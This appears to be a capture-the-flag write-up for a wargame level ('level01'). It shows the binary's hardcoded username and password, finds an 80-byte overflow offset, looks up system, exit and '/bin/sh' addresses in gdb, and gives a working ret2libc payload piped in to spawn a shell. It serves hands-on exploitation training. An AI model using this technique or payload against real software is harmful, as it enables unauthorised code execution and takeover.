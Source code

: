 When we decompile it we can see that he is using 2 function :
one to check username and one to check the password.
We see that the username is : dat_wil
and the password his :admin. But this doesn't change anything.
What we can do is make the password segfault.
with this test : aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09
we found this offset = cA00
so ther is 80 caractere before the segfault
so we can make him execute something :

let's try a rettolibc :
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

adress that we start

python -c 'print("\x90" * 4 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" + "\x90" * (80 - 16) + "\x80\xd6\xff\xff")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(python -c 'print("dat_wil")';python -c 'print("\x90" * 4 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" + "\x90" * (81 - 16) + "\x80\xd6\xff\xff")';cat) | ./level01
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFFFF
